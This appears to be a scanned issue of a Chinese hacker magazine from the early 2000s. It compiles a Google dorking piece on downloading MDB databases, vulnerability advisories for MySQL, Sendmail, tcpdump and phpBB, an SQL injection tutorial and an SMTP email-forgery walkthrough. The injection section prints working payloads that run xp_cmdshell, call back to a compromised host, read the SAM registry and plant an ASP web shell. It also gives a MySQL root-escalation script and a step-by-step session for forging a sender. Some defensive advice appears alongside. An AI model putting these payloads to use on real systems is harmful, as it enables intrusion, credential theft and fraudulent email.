现在，只要我们对邮件客户端进行少少的改动就大功告成了，把它的 POP 和 SMTP 服务器都设置为 127.0.0.1，这样，你收发邮件的任何动作都是被加密了的。当然，这个方法同样可以用在 Telnet 等其他协议上，而且可以在“remote”那设置远程转发，这些就留给读者自己尝试了。

### 警钟长鸣

#### 事关 Google 与 MDB 数据库的下载

文／独行者

快要过新年的时候，看到安全焦点上面发布了一个新人侵方法的警告，当时忙着年度总结，没怎么在意，春节好好热闹了一番，灯火阑珊后想起节前的那个漏洞，于是看了看……不看不要紧，一看可把我这网管吓坏了：我们敬爱的 Google 大哥竟然能够支持 MDB 数据库后缀搜索！

作为一个普通的 Web Master，守护网站的安全是我的责任，我管理的网站上刚好有几个 MDB 的数据库，包括了新闻、论坛等数据库，做得都很简单，根本没想到过会有这样的事。冷静，冷静，让我先从人侵者的角度试试看：

首先是新闻的 news.mdb，打开熟悉的 Google，输入“news.mdb”，轻击 Enter……有不少于一万余条明确的搜索结果！就算去掉那些不可用的过时链接，去掉那些教程之类的东西，剩下的数目也是可观的！

摆在眼前一条条明明白白的结果让我惊叹不已，看看，news.MDB 文件的相关路径就是和文件名同在一个引号中的那个地址，然后在地址栏中输入相应的网址。要是人侵者的运气好，网管是个光吃白饭不做事的马虎大王，那么，在你输入相应网址之后几分钟内，系统会给你“news.MDB 文件已经下载”的提示！

唉，可怕呀，那么论坛呢？论坛的数据库又怎么样？里面可是包含了许许多多天南海北的朋友们的密码和相关私人信息呀！我仍然按照上面一样的操作来搜索，同样，结果令我失望：依旧有不计其数的数据库可以被搜索到！但是通过我的进一步验证，也就是具体下载这样的数据库的时候，绝大多数的论坛数据库都不能被下载，看来对论坛 ID 和密码的重视程度要比新闻组多！但不可忽视的还是有少数的网管没有听到“警钟”，依旧能被人下载！

这时候，我忽然有种奇怪的想法：使用“mdb conn”来搜索！结果还是很不令人乐观！但看得出来，这次找到的网址大多都是可用的！悲哀啊！我为我们广大的网管或者是系统管理员而悲哀，要是稍微懂一点计算机数据库的人，随便用一个东西，比如 Office 系列中的数据库 Access，就能打开网管们认为“天衣无缝”的系统保密资料！

还是找找我自己的数据库吧，按上面的方法，我依次搜索了我管理的相关数据库的地址，还好，没找到，亏我长期、稳定的好习惯！下面是我的一些比较简单的办法，希望能给同行们提供一些帮助：

- 不要将数据库的名字直接写在主程序中，我的办法是新建一个 asp 文件，里面包含了数据库的实际位置，然后在别的页面要使用的时候调用这个文件，从而实现简单的隐藏功能。
- 使用专门的数据库加密软件来加密你的数据库，特别是机密资料的数据库！
- 限制数据库的下载，这点可以通过编程实现，或者通过自身防火墙来实现。
- 使用复杂名称和密码！并定期更换！

以上是我的一些简单的防御办法，一般来讲，对付普通的人侵者就够了，假如遇到高手，那这些还远远不够，那我们只有通过查看系统服务器中的日志文件来做相应的调查了，那时候就该是我们神圣的网络警察出马的时候了！希望这样的警钟长鸣！

### 3Com SuperStack 3 防火墙可能存在内容过滤缺陷

漏洞内容：SuperStack 3 防火墙的过滤器在检测请求后没有重新组合零碎的数据包，攻击者利用 Telnet，并通过 80 端口能连接上限制站点。攻击者通过精心构造 HTTP 请求报头，例如：

```text
C:\>telnet www.blockedsite.com 80

GET / HTTP/1.1
Host: www.blockedsite.com
```

将向限制站点每次传送一个字节。由于过滤器不能检测包含单一有效字节的数据包，因此，每个数据包都能通过过滤检测。限制站点将收集所有数据包，将它们拼凑起来，并作出响应。因为引入数据包是不经检测的，用户很容易接受通过 Telnet 所请求页面的源代码。

## MYSQL 存在权限提升缺陷

漏洞内容：MYSQL 存在缺陷，如果 MYSQL 只有一个 my.cnf 文件，并且该文件保存在 /etc 目录下，利用该缺陷将导致攻击者获得 MYSQL 的 root 权限。

以 root 权限创建下列文件：

```sql
mysql> CREATE DATABASE roottext;
mysql> USE roottext;
mysql> CREATE TABLE hack (conf VARCHAR(80));
mysql> INSERT IN hack VALUES ('[mysqld]');
mysql> INSERT IN hack VALUES ('user=root');
mysql> SELECT * INTO OUTFILE '/path/to/mysql/datadir/my.cnf' FROM hack
mysql> QUIT
```

将在 MYSQL 的 datadir 目录中创建一个 my.cnf 文件，该 my.cnf 文件包含下列内容：

```ini
[mysqld]
user=root
```

当 MYSQL 重新启动的时候，在 datadir 目录 my.cnf 文件中的用户选项将不理会原来的 /etc/my.cnf 文件，并直接以 root 权限运行 MYSQL。

涉及程序：MYSQL 3.23.53 版及其之前的版本

攻击方法：以 root 权限创建并保存下列文件：

```sql
mysql> CREATE DATABASE roottext;
mysql> USE roottext;
mysql> CREATE TABLE hack (conf VARCHAR(80));
mysql> INSERT IN hack VALUES ('[mysqld]');
mysql> INSERT IN hack VALUES ('user=root');
mysql> SELECT * INTO OUTFILE '/path/to/mysql/datadir/my.cnf' FROM hack
mysql> QUIT
```

### Sendmail 存在报头解析缓冲溢出缺陷

漏洞内容：Sendmail 是一款网络上处理电子邮件的通信流量交换和路由计算的程序，类似缺省的 Mail Transfer Agent（MTA），FreeBSD 系统就包含了 Sendmail 程序。

Sendmail 5.79 版之后的所有版本在报头解析时可能存在缓冲溢出缺陷。攻击者通过向 Sendmail 发送一个精心构造的临时信息，能在系统上以 root 权限执行任意代码。Sendmail 能通过初始 Sendmail MTA、任何转播 Sendmail MTA，或者通过传送 Sendmail 过程处理恶意信息，并触发缺陷。在 ident 程序中的缺陷是不可升级的。

- 将系统升级到 4-STABLE、RELENG_5_0、RELENG_4_7，或 RELENG_4_6；
- 下载补丁（详见光盘 \xiangguan\）。

### TCPDUMP 在分析 ISAKMP 包时存在 DoS 缺陷

漏洞内容：TCPDUMP 是一款非常流行的网络监测工具，可以将网络中传送的数据包的报头完全截获下来提供分析。在分析 ISAKMP 包（UDP 端口 500）时存在一个缺陷，攻击者通过发送一个精心构造的临时数据包，将强制 TCPDUMP 进入到无限循环中，导致产生 DoS 攻击。下列输出将显示 TCPDUMP 接收到一个畸形ISAKMP 包的情况：

```text
# tcpdump -vvvr tcpdump_isakmp_inf_loop | head
05:14:57.954719
192.168.2.243.isakmp > 192.168.2.243.isakmp: isakmp
8.9 msgid 7d380dee
cookie 773b4e8a1618caa8->51efacc0a65e0334: phase
2/others ? #69[C]:
    (#83)
    (#237)
    (#237)
    (#237)
    (#237)
    (#237)
    (#237)
    (#237)
    (#237)
...
```

数据串“(#237)”将继续显示，表示 TCPDUMP 没有处理其他数据包。存在缺陷的代码来自于 print_isakmp.c：isakmp_sub0_print() 循环，但 while() 循环不存在缺陷：

```c
while (np) {
    safememcpy(&e, ext, sizeof(e));

    if (ep < (u_char *)ext + ntohs(e.len)) {
        printf(" [/%s]", NPSTR(np));
        cp = ep + 1;
        break;
    }

    depth++;
    printf("\n");
    for (i = 0; i < depth; i++)
        printf("  ");
    printf("(");
    cp = isakmp_sub0_print(np, ext, ep, phase, doi,
proto);
    printf(")");
    depth--;

    np = e.np;
    ext = (struct isakmp_gen *)cp;
}
```

任何远程用户通过发送一个精心构造的临时数据包，就能引发该缺陷，导致程序失效，阻止管理员检查网络通信。由于 TCPDUMP 使用的是 UDP 协议，攻击者能通过欺骗源地址，匿名触发该缺陷，并且，与 TCPDUMP 相关的应用程序也将受到影响。以 Linux 和 FreeBSD 为平台的 TCPDUMP 3.6、3.6.3、3.7.1 版都存在该缺陷，许多其他 Linux 版本也包含易受该缺陷影响的 TCPDUMP。

解决方案：

TCPDUMP 3.7.2 版已经修正该缺陷，请用户及时下载安装：

http://www.tcpdump.org/release/tcpdump-3.7.2.tar.gz

临时解决方案：

重新启动 TCPDUMP，恢复到初始状态。

### Netscape 样式表远程拒绝服务攻击漏洞

漏洞内容：Netscape 是一款流行的 Web 浏览器，在处理部分样式表代码时存在问题，远程攻击者可以利用这个漏洞使目标用户 Netscape 崩溃。攻击者如果构建包含如下样式表代码的 HTML 页面：

```html
<html>
<body>
<div style="position:absolute;">

<div style="position:absolute; overflow:scroll">

</div>
</div>
</body>
</html>
```

诱使 Netscape 用户浏览，可导致浏览器崩溃，并消耗大量 CPU 利用率。

## PHPBB2 远程 SQL 注入漏洞

漏洞内容：PHPBB 是一款流行的开放源代码 BBS 系统，由于 PHPBB2 部分脚本对用户输入缺少充分检查，攻击者可以提交恶意 SQL 命令修改原来 PHPBB2 系统的 SQL 逻辑，造成攻击者未授权修改数据库，可能以 PHPBB2 管理员身份进入应用系统。

测试方法：见光盘\xiangguan\



### SQL Injection 攻击技术（下）

#### 四、利用 SQL Injection 入侵系统

前面我们所讲述的都是利用 SQL Injection 技术来分析以及入侵 SQL Server 数据库的例子，但是对于黑客而言，仅仅入侵到数据库是远远不够的，更进一步的想法自然是入侵整个目标操作系统。下面我们就来讲述一下如何利用 SQL Injection 技术来进行操作系统级别的入侵。

- 1. 获取系统信息

和对数据库的入侵一样，我们在入侵系统之前一般总会想要得到一些关于操作系统的信息，SQL Server 中有一个名为 @@version 的全局变量可以为我们提供这方面的信息。同样，利用把这个信息嵌入到错误信息中的方法，我们就可以得到想要的系统信息了。

还以前面那个 test.asp 程序为例，我们提交如下 URL：

```text
http://localhost/test.asp?username=isno&password=testit' union select @@version,1,1--
```

浏览器返回：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server] 将 nvarchar 值 'Microsoft SQL Server 2000 -- 8.00.194 (Intel X86) Aug 6 2000 00:57:48 Copyright (c) 1988-2000 Microsoft Corporation Standard Edition on Windows NT 5.0 (Build 2195: Service Pack 2)' 转换为数据类型为 smallint 的列时发生语法错误。
/test.asp，行 14
```

这样就得到了 SQL Server 和操作系统以及 Service Pack 的版本号，为我们进一步入侵打下了坚实的基础。

- 2. 利用扩展存储过程

扩展存储过程是 SQL Server 提供的一类用来扩展数据库功能的命令，它们是通过 DLL 来实现的。利用扩展存储过程，几乎可以做到任何我们想要在系统中做的事情。

- （1）执行任意命令

xp_cmdshell 是一个可以用来执行系统命令的扩展存储过程，使用起来也很简单，例如：exec master..xp_cmdshell 'dir'，就可以执行 dir 命令了。我们利用 SQL Injection 可以直接把 xp_cmdshell 嵌入到 URL 里面，以达到执行系统命令的目的。例如：

```text
http://localhost/test.asp?username=isno&password=testit';exec master..xp_cmdshell 'dir'--
```

但是这里有一个问题，所执行的命令的结果并不会通过浏览器返回给我们，那么我们怎么才能知道命令是否执行成功了没有呢？其实办法有很多，例如我们可以在一台有真实 IP 的肉鸡上用 nc 监听 UDP 的 53 端口，然后在目标系统上执行 nslookup 命令来查询那个肉鸡，看肉鸡上是否有反应就可以了。具体方法如下：

```text
http://localhost/test.asp?username=
isno&password=testit';exec master..xp_cmdshell
'nslookup a.com 192.168.0.103'--
```

这时在 192.168.0.103 上面会显示一些乱码，并且发出“嘟”的响声，这证明命令确实成功执行了。

然后我们就可以利用 xp_cmdshell 来执行 TFTP、FTP 等命令上传文件，对目标机器进行入侵了。具体操作过程这里就不再赘述了，相信各位黑客对这些命令都了如指掌。

- （2）操作注册表

SQL Injection 提供一系列扩展存储过程来帮助我们对注册表进行操作，主要有下面这几个：

- xp_regaddmultistring
- xp_regdeletekey
- xp_regdeletevalue
- xp_regenumkeys
- xp_regenumvalues
- xp_regread
- xp_regremovemultistring
- xp_regwrite

这些扩展存储过程的具体用法都比较简单，就不在这里介绍了。举一个例子，例如我们可以使用 xp_regread 来读取注册表中的 SAM 信息，可以从中取得加密过的用户密码，再使用其他工具进行解密：

```text
exec master..xp_regread HKEY_LOCAL_MACHINE,
'SAM\SAM\Domains\Account\Users\000001F4', 'F'
```

当然，要想成功执行上面命令，需要 SQL Server 是以 Local System 身份运行的，默认安装的 SQL Server 是可以执行的。

- （3）操作服务

使用 xp_servicecontrol 这个扩展存储过程，可以对系统服务进行操作，例如我们可以把 telnet 服务打开：

```text
exec master..xp_servicecontrol 'start', 'tlntsvr'
```

telnet 服务的登录认证方式，这样就可以成功打开一个 cmd.exe 后门。

- 3. 利用自定义的扩展存储过程

除了使用系统中已经存在的扩展存储过程以外，我们还可以使用自定义的扩展存储过程。例如，我们写了一个 DLL 程序，可以使用下面命令使它成为扩展存储过程：

```text
sp_addextendedproc 'xp_myproc', 'c:\temp\xp_mine.dll'
```

然后，我们就可以利用 SQL Injection 插入下面的语句来执行我们自己的扩展存储过程：

```text
exec xp_myproc
```

当使用完自定义的扩展存储过程之后，不要忘记把它删除：

```text
sp_dropextendedproc 'xp_myproc'
```

- 4. 对文件的操作

我们可能要把一些数据库中的内容转存到文本文件当中，或者将文本文件导入数据库，这时候也可以在 SQL Injection 当中完成。

利用 bulk 可以把文本文件导入到一个临时表里面：

```text
bulk insert foo from 'c:\temp\test.txt'
```

如果我们想通过 SQL Injection 来查看系统中的文本文件，就可以使用 bulk insert 把文件导入数据库，然后结合前面的 union 方法把表中的文本在错误信息当中显示出来。

- 5. 利用 ActiveX 自动脚本

SQL Server 提供了一类内置存储过程用来实现 WSH 脚本，也就是可以使用 VBScript 和 JavaScript 中的大部分对象。下面用几个例子来说明 ActiveX 自动脚本。

- （1）使用 wscript.shell 运行任意程序

```sql
declare @o int
exec sp_oacreate 'wscript.shell'
exec sp_oamethod @o, 'run', NULL, 'notepad.exe'
```

这样的脚本就可以直接嵌入到 SQL Injection 的 URL 里面去：

```sql
isno&password=testit'; declare @o int exec sp_oacreate
'wscript.shell' exec sp_oamethod @o, 'run', NULL,
'notepad.exe'--
```

- 2. 使用 scripting.filesystemobject 读取任意文本文件

```sql
declare @o int, @f int, @t int, @ret int
declare @line varchar(8000)
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'opentextfile', @f out, 'c:\boot.ini', 1
exec @ret=sp_oamethod @f, 'readline', @line out
while(@ret=0)
begin
print @line
exec @ret=sp_oamethod @f, 'readline', @line out
end
```

- 3. 在 WWW 目录下建立一个用来执行任意命令的 ASP 程序

```sql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out,
'c:\inetpub\wwwroot\foo.asp', 1
exec @ret=sp_oamethod @f, 'writeline', NULL, '<%
set
o=server.createobject("wscript.shell"): o.run(request.querystring("cmd"))
%>'
```

#### 五、如何防范 SQL Injection

综上所述，SQL Injection 攻击的威胁性是相当大的，尤其是针对没有进行过安全培训的 ASP 程序员所写的脚本程序，几乎全部存在 SQL Injection 的问题。要想从根本上避免出现 SQL Injection 漏洞，主要还是提高 Web 程序员的安全意识，解决程序本身的漏洞。

首先，必须对所有用户输入进行严格的过滤，对单引号、双引号以及“--”等符号进行过滤。不仅是对 QUERY_STRING 环境变量过滤，还要对所有的表单提交数据以及用户可能对 HTML 源文件进行修改来控制的下拉菜单、单选/多选按钮等所有来自 Web 服务器外部的数据进行过滤。

对单引号、双引号等特殊字符的过滤，不能简单删除用户数据，因为恶意的攻击者可能会结合一些数据的组合来绕开这种过滤方法。正确的过滤方法是将单引号转换为两个单引号：

`input = replace(input, "'", "''")`

但从程序的角度来过滤可能还不够，水平再高的程序员也可能会有所疏漏，所以还要结合其他的安全手段来进行保护，例如，使用防火墙过滤掉进入 80 端口的单引号、双引号以及“--”等特殊符号。

还要对 SQL Server 进行必要的安全配置，例如删除 xp_cmdshell、xp_reg*、xp_servicecontrol、sp_oa* 等不经常使用而又带有一定危险性的扩展存储过程；对数据库用户的权限进行严格区分等，这样才能在最大程度上避免 SQL Injection 攻击的危害。

> （上接 38 页）

- 2. 密码是首席看门官，大部分的攻击都是从截获或猜测密码开始的，一旦黑客成功进入，那么前面的防卫措施几乎就没有作用。因此，对密码进行安全、有效的管理是管理员义不容辞的职责。
- 3. 关闭不必要的服务。如果系统都使用 NT 内核系统，就涉及到一个服务的概念，有的服务控制着一个端口的开与关，多一个不必要的服务就多一个威胁，这点也是需要注意的。
- 4. 数据备份永远是最累人但最必要的工作，谁也不敢肯定错误操作、停电、硬盘损坏等意外事故什么时候发生。勤备份数据能给你减少数据丢失后的尴尬。
- 5. 慎重选择好杀毒软件，病毒是个与大型网络形影不离的家伙，几乎每个大型的网络都有它的魅影，今年 1 月 25 日爆发的全球性 SQL 蠕虫病毒就是最好的警告。
- 6. 合理利用安全工具进行检测，不要以为安全工具是入侵（攻击）者的专利，管理员比这些人更有权利使用它。扫描器能让你更好地了解系统出现的漏洞。嗅探器能更好地帮你解决网络的一些实质性问题。所以，你必须熟练运用它们。

解决方案和防护措施也是针对校园网而言，网络安全是一门艺术型的学问，只有不断挖掘和探索才能更好地管理和完善它，以适应不同的场合。

很多读者经常在一些论坛上抱怨，信箱中总是充满了令人反感的垃圾邮件，给网络生活造成了不必要的麻烦，即使是对这些地址进行过滤也都无济于事！对此甚感疑惑！而这篇文章就为大家了解匿名邮件发送的一些方方面面，也使读者们了解到那些匿名信件的来源。

### 匿名（垃圾）邮件的根源



#### ——网络上几乎所有服务器都不可避免的“漏洞”

文 / iceblood

大家在看到这篇文章的小标题的时候，或许很多人都清楚这个“漏洞”，而有的人也许在看文章的过程中，才认识到这个“漏洞”，也或许有的人会惊诧，小标题未免说得太过严重吧！不过，不管看这篇文章的人是什么样的水平，或什么样的心理，我的目的只是把网络上这个缺陷进行一个更细节的介绍，因为我相信，只有大家都意识到这样的“漏洞”，网络才会慢慢地改善，才会有进步。

发送匿名邮件在 Internet 上已经是一个古老的话题，很多电子邮件服务器的管理员都采取了很多措施来防止匿名邮件的发送，比如：IP 漫游记录、SMTP 认证等，并且取得了相当不错的效果，但是近日通过我对发送邮件的过程的追踪，尽管有了以上方法能防止一部分人发送匿名邮件，但实际上仍然可以畅通无阻地发送匿名邮件。这种漏洞到目前为止应该是 100% 的邮件服务器的通病，并且是无法避免的“漏洞”。这主要是因为现在的 SMTP 服务的不完善造成的，实际上很多发送垃圾邮件的工具，其原理也就是我在这篇文章里所介绍的原理。目前国内的邮件服务器应该都有这样的漏洞，包括网易、新浪、搜狐等大型网站都无法逃脱，假如这几大网站的管理员看到了这篇文章，有兴趣的话，可以跟着我来测试。

首先，我来简单地说一下电子邮件传送的原理，假定自己的邮件服务器的 DOMAIN 为 cdefg.com，要发送一封 test@cdefg.com 的电子邮件，电子邮件的正常传送都需要靠 DNS 的 MX 记录来查找对应服务器的 IP 地址，然后再开始发送邮件。同理，cdefg.com 邮件服务器会查找 abcd.com 的邮件记录，然后把邮件发送到 abcd.com 所对应的 IP 地址，假设找到了 xxx.xxx.xxx.xxx 这个 IP，并且 xxx.xxx.xxx.xxx 有 SMTP 服务，这时服务器会连接到 xxx.xxx.xxx.xxx 的 25 号端口（SMTP 服务所监听的端口），并且把邮件发送过去。

说到这里，或许有很多人等不及了吧？好了，让我开始介绍“漏洞”吧，Internet 上的任何服务器都会无条件地接受匿名邮件、垃圾邮件，任何人的电子邮件也都可以被伪造，或许有些人惊诧地想，能伪造所有的？他们是如何做到的？可能也有人说这不是漏洞，只是邮件传输的机制。但这确实能对 Internet 构成很大的威胁，比如伪造电子邮件，网络上伪造一个人的电子邮件实在太简单，它不像现实中的书信，能看笔迹。而在网络上，所有的笔都是键盘，唯一能进行识别的就是数字认证，但在经济还不发达的我国，想要每个人都拥有数字认证是非常困难的事，所以只有完善 SMTP 服务才是最好的办法。

网络上是如何实现这个匿名邮件、伪造邮件发送的过程的呢？很简单，我来给大家介绍，比如伪造 webmaster@domain.com 给 username@domainname.com 发送一封电子邮件。首先，由于要给 username@domainname.com 发送邮件，所以先要找到这个邮件地址的 SMTP 服务器，在命令行下使用 nslookup 这个小工具很快就能查出来，如下：

```text
C:\>nslookup
Default Server: ns.hncsptt.net.cn
Address: 202.103.96.68

>set type=mx
>domainname.com

domainname.com    MX preference = 10, mail exchanger = mail.domainname.com
mail.domainname.com    internet address = xxx.xxx.xxx.xxx

>exit
```

通过上面的命令很快就查出了 domainname.com 这个域的 SMTP 服务器地址为 xxx.xxx.xxx.xxx。

好了，让我们继续：

C:\>telnet xxx.xxx.xxx.xxx 25

会出现：

220 mail.domainname.com

在这里也可能是别的，因为可能默认域不是 domainname.com 的域，而是其他的，但不管这些，你只要看到 220 这个数字就行了。

现在再接着输入命令：

HELO domain.com

返回：

250 mail.domainname.com Hello [x.x.x.x]

这里表示和邮件服务器握手成功，其中 x.x.x.x 就是你的 IP 地址。

好了，我们冒充的最关键地方开始了：

MAIL FROM: webmaster@domain.com

250 OK

这里告诉服务器，我们将用 webmaster@domain.com 这个电子邮件地址来发送这封电子邮件。

很可惜，任何的 SMTP 服务器都不会验证这封电子邮件的真实性，所以这里就被服务器给认可了，于是服务器返回 250 OK，表示接受，继续等待下面的命令。

RCPT TO: username@domainname.com

250 OK

告诉服务器邮件发送给 username@domainname.com，但是服务器在这里只仅仅检查 domainname.com 这个域是不是在自己的转发列表里，由于我们是直接查的 domainname.com 这个域的 SMTP 服务器，所以当然也绝对会在列表里了，所以服务器返回 OK，而不会做更多的验证。

```text
DATA
354 Start mail input, end with <CRLF>.<CRLF>
```

这里输入 DATA，告诉服务器要开始输入邮件内容了，邮件服务器会返回 354 信息，以及上面说的邮件以“.”结束。

开始输入邮件内容了，但一般邮件都会有邮件头，为了更真实地伪造邮件，我们可以按下面的输入：

```text
From: webmaster@domain.com
To: username@domainname.com
Subject: send anonymous mail

Test
.
250 send OK
```

服务器返回 250，说明邮件发送成功，这时你就成功地冒充 webmaster@domain.com 给 username@domainname.com 发送了一封邮件，不过如果对方看邮件头，能看到你的 IP 地址。可是很可惜的是，90% 以上的电子邮件用户根本就不会在乎发送电子邮件的人的 IP 是什么，而且更多的人是没有这样的专业知识，所以他们只能凭邮件内容来辨别真伪，可是又有多少人很快地想到他现在看的这封邮件是一封伪造的呢？同样地，既然能伪造邮件，自然也就能发送匿名邮件了，因为都是同一个方法。而网络上所使用的那些专门发送匿名邮件，以及广告邮件用的工具软件，所利用的原理基本都是这样。

看到这里大家也都知道了吧，只要您知道谁的电子邮件地址，然后根据邮件地址的域，查出 SMTP 服务器，就能很快地给他发送一封匿名的电子邮件或伪造的电子邮件。因为所有的 SMTP 服务器都不会去验证发送者是真是假，而服务器对于发送到它自己的用户的所有邮件，也不会做任何的验证，这就是 SMTP 服务的不完善，从而导致了这样一个非常严重的“漏洞”，也正是这个漏洞，使得网络上的垃圾邮件、广告邮件越来越猖狂，这可以说是匿名（垃圾）邮件的根源。

**结尾声明：** 利用文章所介绍的技术发送恶意的垃圾邮件、伪造邮件是违法的，文章中发送邮件的内容仅供网络管理员参考使用，请勿做其他用途，否则后果自负！

本文主要以一篇来自 sanctuminc 网站的关于 Web 应用安全性文章提供的实例为基础，以作者认为比较容易理解的形式叙述，并通过这些实例来分析网络上 Web 服务器的安全性。文中列举的实例非常简单，稍有些 HTML 代码知识的朋友都可以一目了然。我们从文中也可以看到，往往有些时候黑客对网络构成威胁并不一定需要深奥的知识背景和娴熟的技术才能做到，想像力、观察力和耐心将成为黑客们能否成功的关键。虽然并非所有的网站都存在下面提到的问题，但其中的某些思路对刚刚入门的网络安全爱好者是很有价值的。

### Web 攻击



来源 http://www.sanctuminc.com/

翻译 mwenhua

### 1. 跨站脚本攻击

跨站脚本攻击是一种比较新的攻击手段，较多发生在编写代码不成熟的留言本和论坛中，尤其是免费的留言本和论坛。使用留言本和论坛进行跨站脚本攻击可以制造出各种各样的攻击手段，甚至是组合型攻击，这样的攻击具有攻击代码较易获得、攻击隐蔽性强和传播速度快等特点，让人防不胜防。举一例说明：某网站 www.somesite.com，向访问者提供留言本留言，我们首先分析源代码，我们在留言本的那段代码处可以发现这么一段 HTML tag 标志：

```html
<input type="hidden" name="comment_file" value="comments.txt">
```

